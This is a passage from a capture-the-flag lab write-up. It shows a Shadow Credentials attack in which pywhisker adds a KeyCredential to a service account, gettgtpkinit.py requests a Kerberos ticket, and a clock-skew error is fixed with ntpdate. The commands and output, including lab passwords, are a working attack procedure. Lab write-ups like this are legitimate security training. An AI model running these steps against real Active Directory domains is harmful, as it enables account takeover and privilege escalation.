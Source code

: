 In order to exploit this, we can use `pywhisker`:

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d98831f9-11eb-7a98-1ce4-4b3f2fe83cff
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: GNJ5gqL7.pfx
[+] PFX exportiert nach: GNJ5gqL7.pfx
[i] Passwort für PFX: VLVMMXcUZpo6JQ3sSY3C
[+] Saved PFX (#PKCS12) certificate & key at path: GNJ5gqL7.pfx
[*] Must be used with password: VLVMMXcUZpo6JQ3sSY3C
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

We can now obtain the TGT with the tool specified at the end of pywhisker, let's install it and use it:

```
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/kali/pywhisker/pywhisker/GNJ5gqL7.pfx -pfx-pass VLVMMXcUZpo6JQ3sSY3C cache.ccache

2025-03-12 13:18:45,538 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-12 13:18:45,567 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
    ~~~~^^
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
    ~~~~~^^^^^^
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/home/kali/pywhisker/myenv/lib/python3.13/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KRB_AP_ERR_SKEW Detail: "The clock skew is too great"
```

Got an error, this occurs due to the clock time of our machine being out of sync with the domain controller, let's fix it:

```
sudo timedatectl set-ntp off
# We need to install ntpdate to do this, in kali: sudo apt install ntpdate
sudo ntpdate -u dc01.certified.htb
```
